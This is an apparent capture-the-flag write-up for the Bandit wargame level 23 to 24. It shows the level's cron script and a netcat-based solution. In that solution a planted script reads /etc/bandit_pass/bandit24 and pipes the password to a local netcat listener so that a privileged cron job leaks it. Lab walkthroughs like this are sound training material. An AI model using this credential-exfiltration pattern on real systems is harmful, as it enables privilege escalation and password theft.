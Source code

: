 # Bandit 23 -> 24

- Bash script

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".."  ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23"  ]; then
        timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

- Executes scripts in /var/spool/bandit24 then deletes them
- Tried opening netcat port
- Tried saving to file in /tmp

## Netcat Solution

- Open netcat port

```bash
nc -v -l 127.0.0.1 -p 1337
```

- Create bash script exec.sh

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 | nc 127.0.0.1 1337

```

- Change execution bit of script

```bash
chmod +x exec.sh
```
